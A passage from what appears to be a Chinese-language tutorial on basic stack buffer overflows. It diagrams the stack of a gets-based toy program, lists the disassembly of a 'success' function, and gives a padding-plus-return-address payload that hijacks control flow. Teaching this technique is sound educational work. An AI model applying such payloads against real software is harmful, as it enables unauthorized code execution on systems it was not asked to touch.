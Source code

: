 该字符串距离 ebp 的长度为 0x14，那么相应的栈结构为

```text
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

并且，我们可以通过 IDA 获得 success 的地址，其地址为 0x0804843B。

```asm
.text:0804843B success         proc near
.text:0804843B                 push    ebp
.text:0804843C                 mov     ebp, esp
.text:0804843E                 sub     esp, 8
.text:08048441                 sub     esp, 0Ch
.text:08048444                 push    offset s        ; "You Hava already controlled it."
.text:08048449                 call    _puts
.text:0804844E                 add     esp, 10h
.text:08048451                 nop
.text:08048452                 leave
.text:08048453                 retn
.text:08048453 success         endp
```

那么如果我们读取的字符串为

```
0x14*'a'+'bbbb'+success_addr
```

那么，由于 gets 会读到回车才算结束，所以我们可以直接读取所有的字符串，并且将 saved ebp 覆盖为 bbbb，将 retaddr 覆盖为 success_addr，即，此时的栈结构为

```text
                                           +-----------------+
                                           |    0x0804843B   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```
